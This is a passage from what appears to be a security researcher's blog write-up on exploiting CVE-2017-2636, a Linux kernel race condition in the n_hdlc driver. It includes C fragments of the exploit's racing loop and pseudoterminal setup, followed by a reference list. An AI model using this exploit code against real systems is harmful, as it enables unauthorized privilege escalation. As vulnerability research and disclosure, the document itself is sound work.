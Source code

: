 ## Exploitation

This article is the only way for me to publish the exploit code. So, please, be patient and prepare to plenty of listings!

# Winning the race

Let's look to the code of the main loop: going to race till success.

{% highlight c %}
for (;;) {
	long tmo1 = 0;
	long tmo2 = 0;

	if (loop % 2 == 0)
		tmo1 = loop % MAX_RACE_LAG_USEC;
	else
		tmo2 = loop % MAX_RACE_LAG_USEC;
{% endhighlight %}

The `loop` counter is incremented every iteration, so `tmo1` and `tmo2` variables are changing too. They are used for making lags in the racing threads, which:
 1. synchronize at the `pthread_barrier`,
 2. spin the specified number of microseconds in a busy loop,
 3. interact with `n_hdlc`.

Such a way of colliding threads helps to hit the race condition earlier.

{% highlight c %}
	ptmd = open("/dev/ptmx", O_RDWR);
	if (ptmd < 0) {
		perror("[-] open /dev/ptmx");
		goto end;
	}

	ret = ioctl(ptmd, TIOCSETD, &ldisc);
	if (ret < 0) {
		perror("[-] TIOCSETD");
		goto end;
	}
{% endhighlight %}

Here we open a pseudoterminal master and slave pair and set the `N_HDLC` line discipline for it. For more information about that, see `man ptmx`, [`Documentation/serial/tty.txt`][17] and [this][18] great discussion about `pty` components.

Setting `N_HDLC` ldisc for a serial line causes the `n_hdlc` kernel module autoloading. You can get the same effect using `ldattach` daemon.

{% highlight c %}
	ret = ioctl(ptmd, TCXONC, TCOOFF);
	if (ret < 0) {
		perror("[-] TCXONC TCOOFF");
		goto end;
	}

	bytes = write(ptmd, buf, TTY_BUF_SZ);
	if (bytes != TTY_BUF_SZ) {
		printf("[-] write to ptmx (bytes)\n");
		goto end;
	}
{% endhighlight %}


[1]: https://www.cve.mitre.org/cgi-bin/cvename.cgi?name=2017-2636
[2]: https://bugzilla.redhat.com/show_bug.cgi?id=CVE-2017-2636
[3]: https://bugzilla.redhat.com/show_bug.cgi?id=1430049
[4]: https://bugzilla.novell.com/show_bug.cgi?id=CVE-2017-2636
[5]: https://security-tracker.debian.org/tracker/CVE-2017-2636
[6]: https://people.canonical.com/~ubuntu-security/cve/2017/CVE-2017-2636.html
[7]: https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=82f2341c94d270421f383641b7cd670e474db56b
[8]: http://seclists.org/oss-sec/2017/q1/569
[9]: https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=be10eb7589337e5defbe214dae038a53dd21add8
[10]: https://gruss.cc/files/prefetch.pdf
[11]: https://github.com/xairy/kernel-exploits/tree/master/prefetch-side-channel
[11.1]: https://youtu.be/nDCvRxWxN0Y
[12]: http://lxr.free-electrons.com/ident?i=flush_tx_queue
[13]: http://lxr.free-electrons.com/ident?i=n_hdlc_send_frames
[14]: http://lxr.free-electrons.com/ident?i=n_hdlc_release
[15]: https://github.com/google/syzkaller
[16]: https://github.com/google/syzkaller/wiki/Found-Bugs
[17]: http://lxr.free-electrons.com/source/Documentation/serial/tty.txt
[18]: https://unix.stackexchange.com/questions/117981/what-are-the-responsibilities-of-each-pseudo-terminal-pty-component-software
[19]: https://lwn.net/Articles/612153/
[20]: https://xairy.github.io/blog/2016/cve-2016-2384
[21]: http://vger.kernel.org/~davem/skb_data.html
[22]: https://speakerdeck.com/retme7/talk-is-cheap-show-me-the-code
[23]: http://keenlab.tencent.com/en/
[24]: http://lxr.free-electrons.com/source/include/linux/skbuff.h
[25]: http://lxr.free-electrons.com/ident?i=skb_release_data
[26]: http://vulnfactory.org/blog/2011/06/05/smep-what-is-it-and-how-to-beat-it-on-linux/
[27]: https://www.syscan360.org/slides/2016_SG_Vitaly_Nikolenko_Practical_SMEP_Bypass_Techniques.pdf
[28]: http://lxr.free-electrons.com/source/arch/x86/include/asm/special_insns.h
[29]: https://www.ptsecurity.com/ww-en/